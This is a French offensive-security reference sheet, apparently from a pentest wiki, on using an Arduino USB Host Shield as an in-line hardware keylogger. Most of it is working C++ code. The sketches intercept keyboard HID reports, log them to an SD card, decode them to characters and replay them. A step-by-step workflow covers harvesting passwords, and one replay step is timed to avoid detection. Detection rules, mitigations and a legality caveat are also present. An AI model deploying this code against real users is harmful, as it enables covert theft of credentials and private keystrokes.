

# 🛡️ USB Host Shield — L'Arduino en hôte USB (sniffing clavier)

> [!info] **En 1 phrase**
> Un shield Arduino (MAX3421E) qui transforme l'Arduino en **hôte USB** : intercalé entre un PC et son clavier, il **sniffe**, **enregistre** ou **réinjecte** les frappes — l'arme du **keystroke logging matériel** et du MITM USB.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | USB Host Shield for Arduino (rev. 2.0) |
| Description | Shield empilable sur Arduino basé sur le contrôleur MAX3421E qui donne à la carte la capacité d'être **hôte USB** (énumérer et piloter des périphériques), utilisé en keystroke logging matériel, MITM USB et analyse de périphériques HID |
| Catégorie | 🔌 USB / HID & Gadgets |
| Sous-catégorie | Hardware — interception USB |
| Fonction principale | Sniffing, journalisation et réinjection de frappes clavier (et de toute interaction HID) via l'émulation d'un hôte USB |
| Type d'outil | Hardware + bibliothèque logicielle (C++) |
| Licence | GPLv2 (bibliothèque USB Host Shield 2.0) ; hardware open source |
| Open source / propriétaire | Open source (matériel et logiciel) |
| Langage(s) de programmation | C++ (Arduino IDE), C (cœur USB) |
| Développeur / organisation | Oleg Mazurov, Alexei Glushchenko, Kristian Sloth Lauszus, Andrew Kroll (Circuits@Home / communauté) |
| Projet officiel | USB Host Shield 2.0 — felis/USB_Host_Shield_2.0 |
| Dépôt officiel | https://github.com/felis/USB_Host_Shield_2.0 |
| Documentation officielle | https://felis.github.io/USB_Host_Shield_2.0 — https://chome.nerpa.tech/arduino_usb_host_shield_projects/ |
| Date de création | ~2010 (rev. 1.0), rev. 2.0 publiée en 2011 |
| État du projet | maintenu (bibliothèque toujours sur GitHub, mises à jour régulières) |
| Dernière version connue | Rev. 2.0 de la bibliothèque (à vérifier : pas de numéro de version sémantique officiel) |
| Systèmes compatibles | Arduino UNO, Mega, Leonardo, Pro Mini, Micro, Teensy, chipKIT (matériel hôte : toute carte avec un port USB-A — un PC Linux/Windows côté développement) |

> [!note] Pour vérifier / compléter
> Pas de version sémantique officielle (on parle de « revision 2.0 »). Vendu par TKJ Electronics et de nombreux revendeurs ; certains clones montent un 74AHC125D (nécessaire aux manettes PS3/PS4).

---

## 🎯 Concept

L'USB Host Shield transforme un Arduino en **hôte USB** grâce au contrôleur **MAX3421E** (Maxim Integrated). Un Arduino nu est presque toujours un *device* USB (il se fait énumérer par un PC via le port série du bootloader) ; avec le shield, il devient l'équipement qui **initie** la communication, énumère le périphérique, lit ses descripteurs et échange des rapports. C'est cette capacité qui rend possible le **keystroke logger matériel** : on intercale le montage entre le clavier de la cible et son PC, le shield énumère le clavier comme périphérique HID et lit chaque rapport de frappe envoyé par celui-ci.

Le montage classique est donc : **clavier de la cible → port USB-A du shield → Arduino → PC de la cible**. Le clavier reste fonctionnel pour l'utilisateur (le shield relaye les rapports) mais tout ce qui est tapé passe par le montage et peut être journalisé sur carte SD ou exfiltré en série. C'est une attaque **MITM USB passive** : aucune vulnérabilité logicielle requise, uniquement la confiance accordée au bus USB. Contrairement au [[Outil - USB Rubber Ducky]] qui **injecte** des frappes, le shield excelle dans l'**interception** ; en combinant les deux (une plateforme 32u4 à double rôle), on peut aussi **réinjecter** les frappes capturées. C'est l'outil de l'analyse USB **bas niveau** : descripteurs de configuration, interfaces HID, rapports d'entrée/sortie, ré-énumération. La bibliothèque 2.0 gère bien au-delà du clavier : souris, manettes PS3/PS4/PS5/Xbox/Wii/Switch, MIDI, stockage de masse, adaptateurs FTDI/série, hubs. Dans un pentest physique, il complète la famille des BadUSB en se focalisant sur la **collecte discrète** des identifiants plutôt que sur l'injection seule.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| **Hôte USB vs périphérique** | L'hôte initie, énumère et planifie les transferts (rôle « maître »). Le device répond. Un Arduino standard est un device ; le MAX3421E lui donne le rôle d'hôte |
| **MAX3421E** | Contrôleur USB 2.0 full-speed (12 Mbps) de Maxim, pilote côté SPI par la MCU ; il gère l'état physique de la liaison, les transactions et les buffers |
| **SPI** | Bus série 4 fils (MISO/MOSI/SCK/SS + INT) entre l'Arduino et le MAX3421E. Sur UNO : pins 11 (MOSI), 12 (MISO), 13 (SCK), 10 (SS), 9 (INT) |
| **Énumération** | Processus par lequel l'hôte assigne une adresse, lit les descripteurs et charge/active le driver. Le shield exécute cette phase au boot |
| **HID (Human Interface Device)** | Classe USB des claviers, souris, manettes. Les données circulent sous forme de **rapports** (report descriptors) |
| **Protocole boot HID** | Mode simplifié du clavier (8 octets) disponible avant chargement du driver : `modificateurs + réservé + 6 codes de touches` |
| **Rapport HID** | Bloc d'octets envoyé par le périphérique à chaque changement d'état : `buf[0]` = modificateurs (Ctrl/Shift/Alt/GUI), `buf[1]` = réservé, `buf[2..7]` = codes de touches |
| **Interrupt IN endpoint** | Endpoint de type interrupt par lequel le clavier pousse ses rapports à ~125 Hz (1 ms) ; l'hôte les poll en permanence |
| **Double rôle / 32u4** | Les cartes ATmega32u4 (Leonardo, Micro) peuvent cumuler host (via shield) et device HID natif → réinjection de frappes vers le PC |

---

## 🛠️ Installation

### Matériel requis

| Composant | Rôle |
|---|---|
| Arduino UNO / Mega / Leonardo | MCU hôte (8 bits) |
| USB Host Shield rev. 2.0 (MAX3421E) | Contrôleur USB host, port USB-A |
| Carte microSD + adaptateur | Stockage des logs (format FAT16/FAT32) |
| Alimentation externe 5 V | Éviter les sous-tensions du MAX3421E |
| Clavier / périphérique de test | Périphérique cible pour valider l'énumération |

### Installation de la bibliothèque (Arduino IDE)

```bash
# Option 1 : Library Manager — Sketch > Include Library > Manage Libraries...
#            Rechercher "USB Host Shield Library 2.0" > Install (Oleg Mazurov)
# Option 2 : depuis GitHub
git clone https://github.com/felis/USB_Host_Shield_2.0
# Sketch > Include Library > Add .ZIP Library > USB_Host_Shield_2.0.zip
# (renommer le dossier en "USB_Host_Shield_2.0" si l'IDE refuse les noms spéciaux)
```

### Câblage et premier test

```cpp
// Sketch minimal de test d'énumération — examples/HID/USBHID/USBHID.ino
#include <SPI.h>
#include <Usb.h>
#include <usbhub.h>
USB Usb;
USBHub Hub(&Usb);

void setup() {
  Serial.begin(115200);
  if (Usb.Init() == -1) {
    Serial.println(F("OSC did not start"));   // vérifier SPI et alimentation
    while (1);
  }
  Serial.println(F("USB Host Shield initialized"));
}
void loop() { Usb.Task(); }   // polling obligatoire du bus USB hôte
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - **Alimentation** : le MAX3421E tire du courant du bus. Toujours alimenter en **5 V externe** (adaptateur secteur) quand un clavier est connecté au port hôte.
> - **Pins SPI** : sur UNO/Mega, les pins 11/12/13 sont réservées au SPI et ne peuvent servir à rien d'autre. SS (10) et INT (9) sont modifiables (jumper à couper + `UsbCore.h`).
> - **Cartes 3.3 V** (Teensy) : utiliser la variante Mini du shield ou un niveau de tension adapté ; ne pas brancher 5 V sur une carte 3.3 V.
> - **Clones Arduino** : installer les drivers CH340/CP210x pour l'upload.
> - **SD** : formater en FAT16/FAT32 ; tester l'écriture avant déploiement.

---

## ⚙️ Configuration

La configuration passe par des **macros de compilation** dans la bibliothèque (`settings.h`, `UsbCore.h`) et par les **paramètres du sketch** Arduino. Il n'y a pas de fichier de configuration externe.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `MAX3421E<SS, INT>` | Pins SPI SS et INT du MAX3421E | paires de pins MCU | Redéfinit le câblage si les jumpers ont été déplacés | `typedef MAX3421e<P7, P9> MAX3421E;` |
| `USB_HOST_SERIAL` | Activé pour utiliser `HardwareSerial` (Mega) | `true`/`false` | Libère la RAM / déplace la console | `#define USB_HOST_SERIAL` |
| `USB_HOST_MANUAL_POWER` | Contrôle manuel de l'alimentation VBUS | `true`/`false` | Power-cycle du périphérique à l'init | `#define USB_HOST_MANUAL_POWER` |
| `SupportHub` | Support des hubs USB intermédiaires | `true`/`false` (sketch) | Permet de passer par un hub alimenté | `USBHub Hub(&Usb);` |
| Vitesse Série | Console de debug | `115200` | Affichage de l'énumération et des erreurs | `Serial.begin(115200);` |
| Layout SD | Classe SdFat/SdFile | FAT16/FAT32 | Stockage des rapports HID journalisés | `logFile.open("keys.log", O_CREAT \| O_APPEND \| O_WRITE);` |

---

## 🏗️ Architecture interne

Le cœur matériel est le **MAX3421E** : un contrôleur USB host à registres, piloté en SPI. L'Arduino écrit/ lit des registres (ex. `rPERADDR` pour l'adresse du périphérique, `rHCTL` pour le contrôle host, `rRCVFIFO` pour le FIFO de réception). La bibliothèque **USB Host Shield 2.0** est structurée en couches :

- **`MAX3421e`** (max3421e.h) : couche basse SPI — lecture/écriture de registres, gestion de la ligne `INT`, transfert de paquets.
- **`USB`** (Usb.h) : machine à états de l'énumération (détaché → adressage → configuration → prêt), gestion des ENDPOINTs et des buffers.
- **`USBHub`** (usbhub.h) : détection et gestion des hubs ; indispensable si le montage passe par un hub.
- **`HIDBoot` / `HIDReportParser`** (hidboot.h) : protocole boot HID des claviers/souris ; le parser surchargé reçoit chaque rapport.
- **`HIDUniversal` / `HIDComposite`** (hiduniversal.h) : HID générique (touches multimédia, rapports composés).
- **`hidusagestr.h`** : tables de conversion **codes HID → caractères** (usage pages et usage IDs).
- **`SdFat` / `SdFile`** (dépendance) : écriture des logs sur carte SD.
- **Contrôleurs spécifiques** : XBOX/PS3/PS4/PS5/Wii/Switch (BT et USB), MIDI, FTDI (cdcftdi), ACM (cdcacm), PL2303, stockage de masse (masstorage).

Flux de données du keylogger : le clavier émet un rapport sur son endpoint interrupt → le MAX3421E le place dans son FIFO de réception → `Usb.Task()` le lit en polling → `HIDBoot` appelle `SetReportParser()` → le parser `Parse()` de l'utilisateur extrait modificateurs + codes → écriture dans `logFile` + `sync()` sur SD et/ou émission série.

---

## ⌨️ Commandes

### Commandes principales (API C++)

```cpp
// Squelette minimal d'un sketch d'interception clavier
#include <SPI.h>
#include <SdFat.h>
#include <Usb.h>
#include <usbhub.h>
#include <hidboot.h>
USB      Usb;
USBHub   Hub(&Usb);
HIDBoot<USB_HID_CLASS> HidKeyboard(&Usb);
SdFat  SD;
SdFile logFile;

class KbdParser : public HIDReportParser {
  public:
    void Parse(USBHID *hid, bool is_rpt_id, uint8_t len, uint8_t *buf) override;
};
KbdParser Kbd;

void KbdParser::Parse(USBHID *hid, bool is_rpt_id, uint8_t len, uint8_t *buf) {
  if (buf[2] == 0) return;            // aucune touche pressée
  logFile.print(F("mod=")); logFile.print(buf[0], HEX);
  logFile.print(F(" key=")); logFile.println(buf[2], HEX);
  logFile.sync();                    // écriture immédiate sur SD
}

void setup() {
  Serial.begin(115200);
  if (Usb.Init() == -1) { Serial.println(F("USB host init fail")); }
  if (!SD.begin())      { Serial.println(F("SD init fail")); }
  logFile.open("keys.log", O_CREAT | O_APPEND | O_WRITE);
  HidKeyboard.SetReportParser(0, &Kbd);
}
void loop() { Usb.Task(); }          // polling du bus USB hôte
```

| API / exemple | Effet |
|---|---|
| `Usb.Init()` | Initialise le MAX3421E et démarre l'énumération du périphérique |
| `Usb.Task()` | Polling du bus : à appeler à chaque itération de `loop()` |
| `HIDBoot<USB_HID_CLASS>` | Instance hôte gérant le protocole boot HID (clavier/souris) |
| `SetReportParser(0, &parser)` | Branche un parser personnalisé sur les rapports HID reçus |
| `USBHub Hub(&Usb)` | Support des hubs USB entre le shield et le périphérique |
| `HIDReportParser::Parse()` | Reçoit chaque rapport : `buf[0]` modificateurs, `buf[2]` code touche |
| `hidusagestr.h` — `getUsbKeyStr()` | Traduit un code HID en caractère (pour un layout) |
| `Keyboard.press(k)` / `releaseAll()` | Émet des frappes (côté device, board 32u4) |
| `MouseParser` / `HIDMouse` | Analyse et contrôle des rapports souris |
| `logFile.write()/sync()` | Journalisation fiable sur carte SD |

---

## 🎚️ Options et flags

| Option (macro / paramètre) | Description | Exemple | Niveau |
|---|---|---|---|
| `USB_HID_CLASS` | Classe HID boot (clavier) | `HIDBoot<USB_HID_CLASS>` | Basic |
| `HID_MOUSE` | Classe HID souris | `HIDBoot<HID_MOUSE>` | Basic |
| `SetReportParser()` | Associe un parser aux rapports | `HidKeyboard.SetReportParser(0, &Kbd)` | Basic |
| `USBHost HOST2` | Second hôte (bus UHS2 sur Mega/2560) | `USBHost Host2; USBHub Hub2(&Host2);` | Intermediate |
| `USB_HOST_SERIAL` | Console sur HardwareSerial | `#define USB_HOST_SERIAL` | Intermediate |
| `HIDReportParser` héritage | Parser personnalisé multi-appareils | `class KbdParser : public HIDReportParser` | Intermediate |
| `HIDUniversal` | HID générique hors boot protocol | `HIDUniversal Hid(&Usb);` | Advanced |
| `HIDComposite` | HID multi-interfaces composé | `HIDComposite HidComposite(&Usb);` | Advanced |
| `USBH_MIDI` | Conversion USB MIDI → série | `USBH_MIDI Midi(&Usb);` | Advanced |
| `masstorage` + SdFat | Accès aux clés USB branchées | `BULK_ONLY_MassStorage Msc(&Usb);` | Expert |
| `vbusPower()` | Contrôle de l'alimentation VBUS | `Usb.vbusPower(1);` | Expert |
| `MAX3421e<P7,P9>` | Re-mappage des pins SPI SS/INT | `typedef MAX3421e<P7, P9> MAX3421E;` | Expert |

> [!tip] Options les plus utiles au quotidien
> `Usb.Task()` dans `loop()` (sinon rien ne fonctionne), `SetReportParser()` (le cœur du sniffing), `logFile.sync()` (fiabilité d'écriture), et le `Serial.println` de l'init pour vérifier que l'énumération a réussi.

---

## 🧪 Exemples pratiques

### Beginner

```cpp
// Objectif : lire la valeur brute des rapports HID du clavier sur le port série
// Résultat : mod=00 key=04 à chaque pression de touche
void KbdParser::Parse(USBHID *hid, bool is_rpt_id, uint8_t len, uint8_t *buf) {
  Serial.print(F("mod=")); Serial.print(buf[0], HEX);
  Serial.print(F(" key=")); Serial.println(buf[2], HEX);
}
// Erreurs possibles : "OSC did not start" = init SPI/MAX3421E échouée
```

### Intermediate

```cpp
// Objectif : journaliser sur carte SD modificateurs + codes, sans fausses données
void KbdParser::Parse(USBHID *hid, bool is_rpt_id, uint8_t len, uint8_t *buf) {
  if (buf[2] == 0 && buf[0] == 0) return;      // état relâché : rien à logger
  logFile.print(F("T=")); logFile.print(millis());
  logFile.print(F(" M=")); logFile.print(buf[0], HEX);
  logFile.print(F(" K=")); logFile.println(buf[2], HEX);
  logFile.sync();
}
```

### Advanced

```cpp
// Objectif : double rôle host + device — sniff le clavier ET réinjecte (32u4)
// Montage : clavier cible -> shield -> Leonardo -> PC cible
#include <Keyboard.h>          // device HID natif du Leonardo/Micro
void KbdParser::Parse(USBHID *hid, bool is_rpt_id, uint8_t len, uint8_t *buf) {
  if (buf[2] == 0) { Keyboard.releaseAll(); return; }
  if (buf[0] & 0x02) Keyboard.press(KEY_LEFT_SHIFT);
  Keyboard.press(buf[2]);       // code HID brut -> frappe sur le PC
  logFile.write((char*)buf, len); logFile.sync();
}
```

### Expert

```cpp
// Objectif : décoder les frappes en caractères (layout US) via les tables HID
#include <hidusagestr.h>
// getUsbKeyStr(code, shift_state, caps) renvoie le caractère correspondant
char c = getUsbKeyStr(buf[2], buf[0] & 0x02, buf[0] & 0x22);
logFile.print(c);
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Flashage** — compiler le sketch keylogger et l'uploader sur l'Arduino (shield empilé, SD insérée).
   ```bash
   # Arduino IDE : Tools > Board > Arduino Uno > Port > Upload (Ctrl+U)
   # Moniteur série 115200 : doit afficher "USB Host Shield initialized"
   ```
2. **Interception** — brancher le clavier de la cible sur le port hôte du shield ; relier le montage au PC cible. Le clavier reste utilisable.
3. **Logging** — chaque rapport HID (modificateur, code) est écrit dans `keys.log` sur la carte SD, avec `sync()` pour éviter toute perte.
4. **Exfiltration** — soit débrancher et lire la SD, soit lire le flux série à 115200 bauds si le montage est relié à un canal d'acquisition.
5. **Exploitation** — décoder les codes HID (tables `hidusagestr.h`), repérer les séquences intéressantes (mots de passe, sessions admin, Win+L), ou réinjecter la séquence sur une plateforme double rôle.

---

## 🎬 Scénarios avancés

### Scénario 1 : Sniffer de clavier MITM avec enregistrement SD

Le montage complet (clavier cible → shield → PC) fonctionne normalement pour l'utilisateur, mais tout est journalisé.

```cpp
// Extrait du parser : journalisation de chaque frappe avec horodatage
void KbdParser::Parse(USBHID *hid, bool is_rpt_id, uint8_t len, uint8_t *buf) {
  if (buf[2] == 0) return;
  // buf[0] = modificateurs (Ctrl/Alt/Shift/GUI), buf[2] = code de la touche
  // Écriture dans logFile + sync() pour fiabiliser en cas de coupure
  logFile.print(millis()); logFile.print(F(" "));
  logFile.print(buf[0], HEX); logFile.print(F(" "));
  logFile.println(buf[2], HEX); logFile.sync();
}
```

L'utilisateur ne voit aucune anomalie (le clavier tape et répond normalement) ; seul un contrôle matériel ou une capture USB révèle l'interception.

### Scénario 2 : Réinjection / keystroke replay

À partir des rapports capturés, on rejoue la séquence exacte (par exemple une session administrateur) grâce à une carte 32u4 double rôle.

```cpp
// Rejouer la séquence enregistrée (table de rapports sur SD)
void replay(const uint8_t *seq, uint16_t n) {
  for (uint16_t i = 0; i < n; i++) {
    sendReport(seq[i]);   // envoi du rapport HID vers le PC (Keyboard.press)
    delay(25);            // rythme réaliste pour éviter la détection
  }
}
// La séquence capturée (logFile) est rejouée sur le PC cible
```

### Scénario 3 : Analyse du trafic USB d'un périphérique inconnu

```cpp
// Logging complet des rapports bruts (8 octets) pour analyse offline
void KbdParser::Parse(USBHID *hid, bool is_rpt_id, uint8_t len, uint8_t *buf) {
  for (uint8_t i = 0; i < len; i++) { logFile.print(buf[i], HEX); logFile.print(" "); }
  logFile.println(); logFile.sync();
}
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Accès initial | Interception passive des identifiants saisis sur le poste cible (USB drop / accès physique) |
| Reconnaissance | Cartographie des périphériques USB d'un site (hubs, claviers, manettes) |
| Collecte d'identifiants | Keystroke logging matériel : sessions admin, domaines, emails saisis au clavier |
| Post-exploitation | Exfiltrer les logs (SD, série, réseau) et réinjecter les frappes capturées |
| Évasion de défense | Pas de logiciel à exécuter sur la cible : contourne EDR/AMSI |
| Analyse de hardware | Étude de périphériques USB inconnus (rapports HID, énumération) |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Hardware Additions | T1200 | Le shield est un add-on matériel branché (intercalé entre clavier et PC) pour intercepter les frappes | Event ID 6416 (nouveau device), contrôle matériel | USB device control, allow-list par VID/PID, inspection physique |
| Credential Access | Input Capture | T1056.001 | Keystroke logging matériel : capture de chaque rapport HID du clavier | Latence de frappe, périphérique intermédiaire | USB condom, câbles sigillés, supervision USB |
| Collection | Data from Local System | T1005 | Les frappes (identifiants, sessions) sont collectées sur SD/série | Écritures SD inattendues, fuites série | DLP, supervision des périphériques de stockage |
| Exfiltration | Exfiltration Over Physical Medium | T1052.001 | Les logs sont récupérés physiquement via la carte SD | Contrôle des supports amovibles | Inventaire USB, restriction des médias amovibles |
| Credential Access | Adversary-in-the-Middle | T1557 | MITM USB bidirectionnel entre le clavier et le PC (relais + capture) | Captures USB (Wireshark usbmon) | Politique d'accès physique, audit des hubs |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> L'USB Host Shield matérialise l'attaque « hardware keylogger » : T1200 (ajout matériel) puis T1056.001 (capture de saisie) et T1557 (MITM USB).

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Périphérique intermédiaire entre le clavier et le PC | Boîtier/hub suspect : inspection physique des câbles et ports |
| VID/PID non standard énumérés | Arduino (0x2341), MAX3421E, bridges CH340/CP210x inconnus |
| Latence de frappe ou consommation USB inhabituelle | Les rapports sont relayés : léger délai, trafic de polling accru |
| Carte SD / logs retrouvés sur le montage | Inventaire physique des postes |
| Fuite réseau en parallèle des frappes | Exfiltration des logs vers un C2 : supervision réseau/DLP |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Windows : nouveau périphérique USB HID branché (SetupAPI, Event ID 6416)
title: New USB HID Device Enumerated
id: 6f8c9a2e-5b1c-4a3d-9e2f-0c7b6a5d4e3f
status: experimental
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID: 6416
        Provider_Name:
            - 'Microsoft-Windows-Kernel-PnP'
    filter_known_devices:
        DeviceIds|startswith:
            - 'USB\VID_046D'   # Logitech (claviers/souris légitimes)
            - 'USB\VID_05AF'   # Apple
    condition: selection and not filter_known_devices
falsepositives:
    - Nouveau clavier/souris légitime de l'utilisateur
level: medium
```

```yaml
# YARA — recherche de patterns de keylogger Arduino (fichiers source .ino)
rule Arduino_USBHost_Keylogger {
    strings:
        $a = "HIDReportParser" ascii
        $b = "SetReportParser" ascii
        $c = "Usb.Task" ascii
    condition:
        2 of them
}
```

---

## 🤖 Automatisation

```bash
# Bash — surveillance du port série de l'Arduino et horodatage des frappes
stty -F /dev/ttyACM0 115200 raw -echo
cat /dev/ttyACM0 >> /var/log/uhs_keylog.txt &
```

```python
# Python — parsing du flux série et décodage HID -> caractères
import serial
KEYMAP = {0x04: 'a', 0x05: 'b', 0x06: 'c', 0x1e: '1'}  # layout US (extrait)
ser = serial.Serial('/dev/ttyACM0', 115200, timeout=1)
for line in ser:
    if line.startswith(b'mod='):
        k = line.decode().split('key=')[1].strip()
        with open('frappes.log', 'a') as f:
            f.write(KEYMAP.get(int(k, 16), f'[KEY {k}]'))
            f.flush()
```

---

## 📤 Output et parsing

Le shield produit plusieurs types de sortie :

| Sortie | Format | Où | Exemple d'exploitation |
|---|---|---|---|
| Moniteur série | Texte brut `mod=.. key=..` | Port série (115200) | `cat /dev/ttyACM0` / Python `pyserial` |
| Carte SD | Fichier texte `keys.log` | `O_CREAT\|O_APPEND` | Replay ou décodage offline |
| Rapports bruts | Octets hexadécimaux | `logFile` / série | Analyse USB bas niveau |

```bash
# Parsing du log SD : compter les frappes et extraire les modificateurs
awk '{print $2}' keys.log | sort | uniq -c | sort -rn | head
# Extrait les modificateurs les plus fréquents (Ctrl+C = 0x01, etc.)
```

> [!note] À vérifier
> Le décodage complet en caractères exige une table HID propre au layout cible (`hidusagestr.h` fournit une base US).

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - USB Rubber Ducky]] — injection HID active (complémentaire de l'interception)
- [[Outil - Bash Bunny]] — plateforme de payloads USB multi-vecteurs (équivalent commercial)
- [[Outil - Flipper Zero (USB & radio)]] — badge HID/USB multi-usages
- [[Outil - Duckuino]] — clés Arduino cheap à base de DuckyScript
- [[Techniques/Protocole USB]] — base protocolaire (descripteurs, endpoints, HID)
- [[Techniques/Hardware - Arduino]] — famille de cartes supportées
- [[Outil - Wireshark]] — analyse de captures USB (`usbmon`) pour corréler les rapports

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - USB Rubber Ducky]] | Injection clavier professionnelle, DuckyScript, slots multiples | Pas d'interception passive | Injection de payloads à chaud |
| [[Outil - Bash Bunny]] | Multi-modes (HID, storage, réseau, série), payloads DuckyScript | Plus cher, pas d'interception en ligne | Opérations BadUSB polyvalentes |
| [[Outil - Flipper Zero (USB & radio)]] | BadUSB, RFID, radio, badge de poche | Moins de contrôle USB bas niveau | Pentest physique polyvalent |
| Key Croc (Hak5) | Keylogger matériel intégré, réseau, `MATCH`/`SAVEKEYS` | Mise en ligne Ethernet, plus lourd | Keylogging durable + exfil réseau |
| [[Outil - P4wnP1 A.L.O.A.]] | Raspberry Pi Zero : HID + réseau + scriptable | Setup plus complexe, encombrant | Plateforme offensive complète sur RPi |
| Logiciel (Syser/EDR hooks) | Keylogger logiciel simple | Détectable par EDR, nécessite exécution | Alternatives logicielles du keylogging |

> **Quand utiliser l'USB Host Shield plutôt qu'un Rubber Ducky ?** Quand on veut **écouter** les frappes sans rien exécuter sur la cible (interception passive) ou analyser un périphérique USB, plutôt qu'injecter des payloads. Pour une injection « clé en main » à chaud, le Rubber Ducky reste plus adapté.

---

## ⚡ Performance

- **Débit USB** : full-speed **12 Mbps** (USB 2.0), largement suffisant pour le HID (polling 125 Hz, rapports de 8 octets).
- **SPI** : typiquement 8-12 MHz sur Arduino UNO ; la bibliothèque supporte jusqu'à ~20 MHz sur certaines cartes (chipKIT) mais le gain est marginal pour du HID.
- **Consommation** : ~20-30 mA pour le MAX3421E seul ; un clavier branché au port hôte tire le courant du bus → **alimentation externe 5 V conseillée** (le régulateur de l'UNO plafonne autour de 500 mA via USB).
- **RAM** : la bibliothèque consomme quelques Ko de RAM (buffers USB) ; l'UNO (2 Ko de RAM) tient un sketch keylogger simple, le Mega (8 Ko) permet plus de confort (double host, SD).

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : « OSC did not start »

- **Cause** : l'initialisation du MAX3421E échoue (SPI mal câblé, shield mal empilé, alimentation insuffisante).
- **Solution** : vérifier l'empilement du shield, l'alimentation 5 V externe, et re-tester l'exemple `USBHID`. **Vérification** : moniteur série 115200 affiche « USB Host Shield initialized ».

#### Problème : le clavier n'est pas énuméré

- **Cause** : périphérique non HID boot, hub non supporté, ou courant VBUS insuffisant.
- **Solution** : passer par un hub alimenté + `USBHub Hub(&Usb);`, ou utiliser `HIDUniversal` pour les claviers non-boot. **Vérification** : messages d'énumération dans le moniteur série.

#### Problème : `keys.log` vide sur la SD

- **Cause** : carte SD non formatée (FAT16/FAT32), `SD.begin()` échoue, ou le parser ne reçoit rien.
- **Solution** : reformater la SD, tester `SD.begin()` (message « SD init fail »), vérifier que `SetReportParser` est appelé après l'init. **Vérification** : le test d'écriture `logFile.open` renvoie `true`.

---

## 🔐 Sécurité de l'outil

- **Légalité** : le keystroke logging matériel est une attaque par interception — réservé aux tests d'intrusion **autorisés** et à votre propre matériel. L'installation sur un poste tiers sans mandat est illégale.
- **Détection physique** : le montage (shield + carte + câbles) est visible ; prévoir un boîtier discret et une fausse apparence en engagement autorisé.
- **Exfiltration des logs** : la carte SD et le flux série sont des canaux sensibles — chiffrer les logs (les frappes contiennent des secrets) et les détruire après analyse.
- **Consommation électrique** : un mauvais dimensionnement peut endommager le port USB du PC cible (power spike) ; utiliser un hub alimenté ou une alimentation séparée.

---

## ⚠️ Limitations

- **Hôte uniquement sur UNO** : impossible de réémettre les frappes vers le PC (le PC ne voit pas l'UNO comme clavier) — logger passif, pas un relais actif. Il faut une carte 32u4 (Leonardo/Micro) pour le double rôle.
- **Protocole boot HID limité** : 6 touches simultanées + modificateurs ; pas de touches multimédia ou de remapping avancé sans parser personnalisé (`HIDUniversal`).
- **Débit limité** : full-speed 12 Mbps, suffisant pour HID mais pas pour du bulk massif (lecture de clé USB lente).
- **Fiabilité du SPI** : long câblage ou shield défectueux → erreurs d'énumération intermittentes.
- **Compatibilité** : pas de support « prêt à l'emploi » de tous les claviers ; les claviers composites, les rapports non boot et certaines manettes nécessitent des parsers spécifiques.
- **L'injection de frappes** requiert un savoir-faire supplémentaire (buffer, layout, timing) par rapport à un [[Outil - USB Rubber Ducky]] dédié.

---

## 📋 Cheatsheet

```cpp
// 1. Squelette minimal : init + polling
#include <Usb.h>
USB Usb;
void setup()  { Serial.begin(115200); Usb.Init(); }
void loop()   { Usb.Task(); }

// 2. Keylogger sur SD — parser personnalisé
// HIDBoot<USB_HID_CLASS> + SetReportParser(0, &parser)
// buf[0]=mod, buf[2]=key -> logFile.write + sync()

// 3. Réinjection (32u4) : Keyboard.press(code) / Keyboard.releaseAll()
// 4. Hubs : USBHub Hub(&Usb);  —  USB générique : HIDUniversal Hid(&Usb);
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Transforme l'Arduino en hôte USB : sniff, log et réinjection des frappes clavier (MITM USB) |
| **Quand l'utiliser ?** | Pentest physique, interception passive de saisie, analyse de périphériques HID |
| **Commande principale** | `Usb.Init()` + `Usb.Task()` + `SetReportParser(0, &parser)` dans un sketch Arduino |
| **Alternative principale** | [[Outil - USB Rubber Ducky]] (injection) · Key Croc (keylogging) · [[Outil - Bash Bunny]] |
| **Concepts importants** | MAX3421E, SPI, énumération USB, rapport HID, boot protocol, double rôle 32u4 |
| **Liens associés** | [[Outil - USB Rubber Ducky]] · [[Outil - Duckuino]] · [[Outil - Bash Bunny]] · [[Techniques/Protocole USB]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Périphérique intermédiaire entre le clavier et le PC (boîtier/hub suspect) | Inspection physique des câbles et hubs, « USB condom », câbles sigillés |
| VID/PID Arduino (2341) ou bridge inconnu énuméré | Allow-list USB par VID/PID (Device Guard/GPO), contrôle des hubs USB |
| Rapport HID modifié / latence de frappe inhabituelle | Capture USB (Wireshark usbmon) + analyse des rapports HID |
| Fuite réseau en parallèle des frappes | DLP + supervision réseau, surveillance des exfils |
| Carte SD/logs retrouvés sur le montage | Contrôle matériel régulier des postes, inventaire des périphériques |
| Nouveaux devices USB récurrents (Event ID 6416) | Règle Sigma « New USB HID Device » + alerting SIEM |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Alimenter le shield en **5 V externe** : le MAX3421E provoque des coupures (sous-tension) sur certains Arduino alimentés par USB.
> - Formater la SD en **FAT16/FAT32** et tester l'écriture (`logFile.sync()`) avant le déploiement.
